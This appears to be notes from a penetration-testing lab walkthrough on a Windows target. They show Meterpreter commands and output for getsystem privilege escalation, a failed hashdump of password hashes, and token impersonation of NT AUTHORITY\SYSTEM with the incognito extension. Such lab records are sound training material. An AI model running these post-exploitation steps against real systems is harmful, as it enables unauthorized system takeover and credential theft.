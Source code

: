_Attempting to elevate privileges to SYSTEM._

`getsystem`:
```
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

_Successfully elevated privileges to SYSTEM._

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

_Attempting to dump password hashes (as an alternative approach to elevate privileges to SYSTEM), but encountered an error._

`hashdump`:
```
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
```

_Loading the incognito extension to manipulate tokens._

`getprivs`, `load incognito`:
```
Loading extension incognito...Success.
```

`list_tokens -u`:
```
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
        Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
===========================================
ATTACKDEFENSE\Administrator
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM ←
Window Manager\DWM-1

Impersonation Tokens Available
===========================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-1
```

_Loading the incognito extension to manipulate tokens._

`impersonate_token "NT AUTHORITY\SYSTEM"`:
```
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM ←
```

_Confirming SYSTEM privileges._
